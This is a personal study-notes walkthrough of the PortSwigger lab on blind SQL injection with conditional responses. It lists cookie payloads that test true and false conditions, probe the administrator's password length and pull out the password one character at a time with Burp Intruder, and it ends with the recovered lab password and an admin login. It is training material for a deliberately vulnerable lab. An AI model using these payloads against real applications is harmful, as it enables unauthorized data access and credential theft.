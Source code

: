 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/d11-05-mar/lab-blind-sql-injection-with-conditional-responses/"}
---
```


# **Blind SQL injection with conditional responses**

[Access the PortSwigger lab](https://portswigger.net/web-security/sqlinjection/blind/lab-conditional-responses)

*Note :*
- analyse the app & ask the developer which part of the request is executing sql query at the backend

### Exploiting Blind SQL Injection via Cookies

1️⃣ Vulnerability: The app uses a tracking cookie in an SQL query but does not show query results or errors.

2️⃣ Indicator: If the query returns rows, a "Welcome back" message appears—this confirms the injection.

3️⃣ Confirm SQL Injection: 
-  Set TrackingID=xyz' AND '1'='1 → If "Welcome back" appears, it's vulnerable.
- Set TrackingID=xyz' AND '1'='2 → If message disappears, injection is confirmed.

- On true condition -images will be loaded/response contains specific mssg/response contains one specific msg
- on false condition - images will disappear/response wont contain specific mssg/response contains another specific msg

#### Step 1 : 1st method : boolean method → 1' AND 10=10 `#`
![attachments/Pasted image 20250319192531.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192531.png)

#### Step 2 : intercept on → view details →
![attachments/Pasted image 20250319192617.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192617.png)

#### Step 3 : send to repeater
![attachments/Pasted image 20250319192629.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192629.png)

#### Step 4 : without tampering the tracking id we get the welcome back mssg
![attachments/Pasted image 20250319192702.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192702.png)

#### Step 5 : now when we tamper the tracking id -->we aint getting the welcome back mssg
![attachments/Pasted image 20250319192733.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192733.png)

#### Step 6 : now giving a true condition in tampering id → you can seee the welcome back mssg
![attachments/Pasted image 20250319192809.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192809.png)

#### Step 7 : now give a false condition → you cant see the welcome back mssg
![attachments/Pasted image 20250319192840.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192840.png)

#### Step 8 : TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
![attachments/Pasted image 20250319192916.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192916.png)

- explanation:
![attachments/Pasted image 20250319192938.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319192938.png)

#### Step 9 : ' AND (SELECT 'a' FROM users WHERE username='administrator')='a
![attachments/Pasted image 20250319193014.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193014.png)

- explanation:
![attachments/Pasted image 20250319193034.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193034.png)

#### Step 10 : ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
![attachments/Pasted image 20250319193112.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193112.png)

![attachments/Pasted image 20250319193126.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193126.png)

#### Step 11 :' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
![attachments/Pasted image 20250319193207.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193207.png)

![attachments/Pasted image 20250319193216.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193216.png)

#### Step 12 : so after writting ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
- we can see that we cant see welcome back so the password has 20 characters
![attachments/Pasted image 20250319193327.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193327.png)

- how do we know its 20??
- now from repeater → send to intruder

![attachments/Pasted image 20250319193357.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193357.png)

- now in intruder edit the tracking id :
' AND (SELECT 'a' FROM users WHERE username='administrator' AND
LENGTH(password)>1)='a
- select the payload 1 in order to know how many characters does the password has.
![attachments/Pasted image 20250319193442.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193442.png)

- select the payloads type as numbers. and do the rest from the below screenshot.
![attachments/Pasted image 20250319193543.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193543.png)

- go to settings → grep match → Welcome back (as we are checking for welcome back ) → add it
![attachments/Pasted image 20250319193617.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193617.png)

- now from 0 -19 , we are getting 1 in the weclome back column , after that we aint gettting 1 , so hereby we know that from 0-19 there are 20 characters so the password is of 20 characters.
![attachments/Pasted image 20250319193653.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193653.png)

- Now again go to intruder and edit the following
trackign id :
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a 
- set the attack type as : Cluster bomb
![attachments/Pasted image 20250319193733.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193733.png)

- for payload 1 do the following settings
![attachments/Pasted image 20250319193753.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193753.png)

- for payload 2 do the the following settings
![attachments/Pasted image 20250319193813.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193813.png)

- go to grep match and settings add welcome back.
![attachments/Pasted image 20250319193841.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193841.png)

- now your password is these : cqasso52s97tr1nmimol
![attachments/Pasted image 20250319193911.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193911.png)

- now go to login page : administrator 
- password :cqasso52s97tr1nmimol

![attachments/Pasted image 20250319193958.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319193958.png)

- so you cracked the password and logged inside the admin page !! 🔪🥷🔪

#                                    ---****---

